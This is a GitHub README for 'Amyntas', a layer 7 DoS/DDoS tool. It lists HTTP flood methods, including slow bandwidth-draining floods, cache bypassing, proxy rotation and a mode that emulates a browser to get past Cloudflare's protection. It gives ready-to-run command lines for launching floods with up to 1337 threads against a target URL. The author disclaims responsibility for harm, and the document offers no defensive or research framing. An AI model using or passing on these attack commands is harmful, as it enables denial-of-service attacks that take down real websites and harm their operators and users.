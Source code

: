 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (method which uses browser emulation to get a cookie which will be used to bypass services like Cloudflare)
- `PROXY` (GET flood which hides its IP using a specified proxy list)

---

### Features
1. Proxy scraper & checker
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy aswell `--rotate-proxy <file with proxies>`)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol
5. Better debugging (it's shit atm)

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://yandex.ru)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
--check-proxies FILE_LOCATION          Specify a file with proxies to check (set type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified PROXY/GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds:
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds:
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

GET flood that bypasses Cloudflare's UAM mode:
```
python3 amyntas.py -t https://target.com -w 200 -d 100 -m BYPASS --proxy-file socks5.txt
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)